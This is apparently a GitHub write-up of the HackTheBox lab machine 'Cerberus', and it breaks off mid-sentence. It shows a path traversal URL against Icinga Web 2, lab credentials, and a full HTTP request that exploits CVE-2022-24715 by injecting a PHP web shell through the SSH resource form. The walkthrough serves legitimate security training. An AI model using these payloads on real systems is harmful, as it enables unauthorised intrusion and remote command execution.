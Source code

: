 <h3> Cerberus HackTheBox </h3>

### Difficulty = Hard

### IP Address = 10.10.11.205

#### This is my first hard rated hackthebox machine and its a windows box xD

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/227714366-b69f0657-52ca-4fc5-b305-2f3da790d02d.png)

I added the domain name to my `/etc/hosts` file

```
➜  ~ cat /etc/hosts | grep cer
10.10.11.205    icinga.cerberus.local cerberus.local
➜  ~ 
```

After navigating to the web server I got this login page
![image](https://user-images.githubusercontent.com/127159644/227714514-c5dd3dc0-be36-4dc9-b8dc-03615a144e83.png)

Since weak cred doesn't work (lets face it this is an hard htb box 😂) I decided to check for exploits

And i found a path transversal exploit

Here's the resource [Exploit](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

To get the `/etc/passwd` file according to the exploit you goto

```
Vuln: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227714671-da582c0f-4cab-4f48-abeb-5e79c1b2839a.png)

And now if you read the resource you will see that authenticated user can then gain RCE via ssh key

First on the normal login page looking at the source code shows this
![image](https://user-images.githubusercontent.com/127159644/227714915-e0a99cbb-6f70-4034-a54a-df36067011a4.png)

```
file:///etc/icingaweb2/ssh/nima
```

It shows us the path to the `Icinga Web 2` 

That is useful cause we want to enumerate creds

So i asked chatgpt and got the answer
![image](https://user-images.githubusercontent.com/127159644/227715278-9ee180a5-8746-494e-ac21-72b053213df1.png)

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227715327-c72c1305-3955-422e-8e98-8728ed152669.png)

```
Username: matthew
Password: IcingaWebPassword2023
```

Using that to login works
![image](https://user-images.githubusercontent.com/127159644/227715398-130e54c1-1494-497b-8c22-f55e8dae793f.png)

From here we can get RCE using the same resource that exploited the path transversal

#### Exploitation: Remote Code Execution (CVE-2022-24715)

The exploitation goes this way

```
Create ssh key with PEM as its type
```

Using ssh-keygen works fine
![image](https://user-images.githubusercontent.com/127159644/227715586-e284bc22-a976-4cee-854d-681dc8e7cde5.png)

Now we need to create a new SSH resource in icingaweb.

It can be done here:

```
Configuration -> Resources -> Create a New Resource
```

![image](https://user-images.githubusercontent.com/127159644/227716048-237d1f3a-7535-4739-8037-a86ef582bab4.png)
![image](https://user-images.githubusercontent.com/127159644/227717046-d866a18b-3ac6-404e-b7ad-048713edf872.png)
![image](https://user-images.githubusercontent.com/127159644/227717230-121e62d8-e49e-476b-8205-82085a9a035f.png)

Now to get rce we need to create another resource

```
Resource Type: SSH Identity
Resource Name: shell.php
User: ../../../../../../dev/shm/shell.php
Private Key: file:///etc/icingaweb2/ssh/haxor
```

So we intercept the request in burp and manipulate the private key value
![image](https://user-images.githubusercontent.com/127159644/227717465-6ad32dc9-bcce-42e2-ab5d-f917ef4f10f6.png)

After forwarding the request it works
![image](https://user-images.githubusercontent.com/127159644/227717395-c1fff159-ffbb-4c9c-88b9-fd84546ad1c3.png)

Here's the request

```
POST /icingaweb2/config/createresource HTTP/1.1
Host: icinga.cerberus.local:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Icinga-Accept: text/html
X-Icinga-Container: col2
X-Icinga-WindowId: uygbarnqzjmx_weauyb
X-Requested-With: XMLHttpRequest
Content-Length: 334
Origin: http://icinga.cerberus.local:8080
Connection: close
Referer: http://icinga.cerberus.local:8080/icingaweb2/config/resource
Cookie: Icingaweb2=s6tieh9hvacggibekoo9agmbio; icingaweb2-session=1679769643; icingaweb2-tzo=3600-0

type=ssh&name=shell.php&user=..%2F..%2F..%2F..%2F..%2F..%2Fdev%2Fshm%2Fshell.php&private_key=file%3A%2F%2F%2Fetc%2Ficingaweb2%2Fssh%2Fhaxor%00%3C%3Fphp+system(%24_REQUEST%5B'cmd'%5D)%3B%3F%3E&formUID=form_config_resource&CSRFToken=1379352477%7C91ede291a5bb76a464f88529cfe972d032c01b5fc8c9f06893f8ccc7de5e639b&btn_submit=Save+Changes
```

Now we change it the path to /dev
![image](https://user-images.githubusercontent.com/127159644/227735770-bbb095d5-315f-47a9-898f-a0a0e3d3b8b4.png)

Next thing is to enable shm mode
![image](https://user-images.githubusercontent.com/127159644/227735853-2288030a-b8cf-41ae-b450-7f3c6adb7d75.png)

After that we can then verify by checking 

